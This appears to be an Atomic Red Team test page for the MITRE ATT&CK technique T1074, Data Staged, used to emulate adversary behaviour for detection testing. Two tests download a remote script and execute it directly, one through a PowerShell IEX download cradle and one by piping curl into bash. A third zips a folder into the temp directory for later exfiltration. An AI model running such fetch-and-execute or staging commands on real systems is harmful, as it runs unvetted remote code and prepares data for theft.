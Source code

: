# T1074 - Data Staged
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1074)
<blockquote>Collected data is staged in a central location or directory prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as [Data Compressed](https://attack.mitre.org/techniques/T1002) or [Data Encrypted](https://attack.mitre.org/techniques/T1022).

Interactive command shells may be used, and common functionality within [cmd](https://attack.mitre.org/software/S0106) and bash may be used to copy data into a staging location.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)

- [Atomic Test #2 - Stage data from Discovery.sh](#atomic-test-2---stage-data-from-discoverysh)

- [Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp](#atomic-test-3---zip-a-folder-with-powershell-for-staging-in-temp)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file

**Supported Platforms:** Windows


#### Run it with `powershell`! 
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat') > pi.log
```



<br/>
<br/>

## Atomic Test #2 - Stage data from Discovery.sh
Utilize curl to download discovery.sh and execute a basic information gathering shell script

**Supported Platforms:** Linux, macOS


#### Run it with `bash`! 
```
curl -s https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074/Discovery.sh | bash -s > /tmp/discovery.log
```



<br/>
<br/>

## Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp
Use living off the land tools to zip a file and stage it in the Windows temporary folder for later exfiltration.

**Supported Platforms:** Windows


#### Run it with `powershell`! 
```
Compress-Archive -Path $PathToAtomicsFolder\T1074\bin\Folder_to_zip -DestinationPath $env:TEMP\Folder_to_zip.zip
```


#### Cleanup Commands:
```
Remove-Item -Path $env:TEMP\Folder_to_zip.zip
```

<br/>
